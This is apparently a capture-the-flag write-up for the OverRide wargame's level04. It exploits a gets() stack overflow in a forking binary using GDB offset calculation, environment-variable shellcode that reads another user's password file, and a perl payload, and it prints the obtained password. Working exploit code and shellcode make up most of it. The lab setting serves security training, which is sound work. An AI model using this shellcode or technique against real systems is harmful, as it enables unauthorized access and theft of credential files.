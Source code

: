# level04

The program uses `gets` function to read stdin without checking size.

## Step 1. Calculate offset to overwrite `eip`
```assembly
level04@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level04
[...]
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
=> 0x0804875e <+150>:	call   0x80484b0 <gets@plt>
[...]
```
```
level04@OverRide:~$ gdb -q level04
(gdb) set follow-fork-mode child
(gdb) break *0x0804875e
Breakpoint 1 at 0x804875e
(gdb) run
Starting program: /home/users/level04/level04
[New process 1952]
Give me some shellcode, k
[Switching to process 1952]

Breakpoint 1, 0x0804875e in main ()
(gdb) info registers eax
eax            0xffffd670	-10640
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804875e in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd670
$1 = 156
```
The program calls `fork` to create a new process, then its child process (pid == 0) calls `gets` to read stdin. We used `set follow-fork-mode child` to let GDB follow the child process and got offset `156` by calculating `eip - eax`.

## Step 2. Store the shellcode in the environment variable
```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	printf("%p\n", getenv("SHELLCODE"));
}

```
```
level04@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv
level04@OverRide:~$ /tmp/getenv
0xffffd845
```
We put the shellcode in the environment variable and get the address by running a little C program.

## Step 3. Build the payload
```
level04@OverRide:~$ perl -e 'print "A"x156 . pack("V", 0xffffd845)' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
